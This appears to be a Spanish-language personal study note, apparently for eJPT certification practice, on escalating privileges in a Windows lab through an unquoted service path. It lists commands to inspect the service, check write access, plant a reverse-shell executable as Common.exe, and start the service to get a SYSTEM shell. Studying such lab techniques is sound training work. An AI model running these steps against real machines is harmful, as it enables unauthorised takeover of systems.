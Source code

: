 
- Consulta el "unquotedvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME) y que el BINARY_PATH_NAME no está citado y contiene espacios.

```
sc qc unquotedsvc
```

- Usando accesschk.exe, tenga en cuenta que el grupo BUILTIN\Users puede escribir en el directorio C:\Program Files\Unquoted Path Service:  

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

- Copiar el ejecutable de reverse.exe que creó en este directorio y lo renombró Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

- Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios SYSTEM:

```
net start unquotedsvc
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Service Exploits - Insecure Service Permissions]]
[[Service Exploits - Insecure Service Executables]]
[[Generate a Reverse Shell Executable]]